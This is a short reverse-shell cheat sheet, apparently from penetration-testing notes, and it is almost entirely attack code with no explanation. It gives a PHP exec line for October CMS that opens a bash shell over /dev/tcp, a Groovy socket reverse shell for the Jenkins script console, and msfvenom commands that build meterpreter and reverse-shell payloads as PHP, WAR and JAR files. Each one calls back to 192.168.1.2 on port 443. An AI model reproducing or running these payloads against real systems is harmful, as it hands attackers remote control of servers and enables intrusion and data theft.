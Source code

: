 
## October CMS

```
function onstart(){
  exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'");
  }

```

---

## Groovy (Jenkins)

```
String host="192.168.1.2";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

---

## Msfvenom

### Php

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php

```

```
msfvenom -p php/reverse_php LHOST=192.168.1.2 LPORT=443 -f raw > reverse.php

```

### War

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war

```

### Jar

```
msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f jar > reverse.jar

```
